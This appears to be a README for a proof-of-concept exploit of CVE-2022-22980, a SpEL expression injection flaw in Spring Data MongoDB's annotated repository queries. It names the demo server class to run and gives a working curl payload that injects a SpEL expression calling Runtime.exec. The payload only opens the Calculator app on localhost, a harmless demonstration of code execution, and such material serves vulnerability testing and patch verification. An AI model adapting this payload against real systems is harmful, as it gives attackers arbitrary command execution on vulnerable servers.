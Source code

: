 ## CVE-2022-22980: Spring Data MongoDB SpEL Expression injection vulnerability through annotated repository query methods

### 1. Run Java Server（not need MongoDB Server）
```
com.rain.bug.spring.data.mongodb.Application.main
```

### 2. payload
```
curl --location --request POST 'http://127.0.0.1:8080/demo' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'keyword=T(java.lang.String).forName('\''java.lang.Runtime'\'').getRuntime().exec('\''/System/Applications/Calculator.app/Contents/MacOS/Calculator'\'')'
```


